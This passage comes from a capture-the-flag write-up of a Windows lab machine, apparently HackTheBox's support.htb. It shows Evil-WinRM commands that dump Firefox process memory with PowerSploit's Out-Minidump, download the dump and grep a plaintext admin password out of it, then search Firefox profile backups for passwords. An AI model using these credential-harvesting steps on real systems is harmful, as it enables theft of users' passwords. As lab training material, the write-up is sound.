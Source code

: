 Alternatively, I could create the same dump using [PowerSploit’s](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) `Out-Minidump`:

```
*Evil-WinRM* PS C:\users\chase\appdata\local\temp> Out-Minidump.ps1
*Evil-WinRM* PS C:\users\chase\appdata\local\temp> menu

   ___ __ __  ____  _
  /  _]  |  ||    || |
 /  [_|  |  | |  | | |
|    _]  |  | |  | | |___
|   [_|  :  | |  | |     |
|     |\   /  |  | |     |
|_____| \_/  |____||_____|

 __    __  ____  ____   ____   ___ ___
|  |__|  ||    ||    \ |    \ |   |   |
|  |  |  | |  | |  _  ||  D  )| _   _ |
|  |  |  | |  | |  |  ||    / |  \_/  |
|  `  '  | |  | |  |  ||    \ |   |   |
 \      /  |  | |  |  ||  .  \|   |   |
  \_/\_/  |____||__|__||__|\_||___|___|

                           By: CyberVaca@HackPlayers

[+] Invoke-Binary
[+] l04d3r-LoadDll
[+] Out-Minidump
*Evil-WinRM* PS C:\users\chase\appdata\local\temp> get-process -id 6252 | Out-Minidump

    Directory: C:\users\chase\appdata\local\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/23/2019  11:09 PM      286666409 firefox_6252.dmp

```

Now I’ll download the dump:

```
*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_190823_025430.dmp
Info: Downloading firefox.exe_190823_025430.dmp to firefox.exe_190823_025430.dmp

Info: Download successful!

```

Now I’ll look for any POST requests in memory using `grep` and the format I found above:

```

root@kali# grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_190823_025430.dmp 
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

```


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password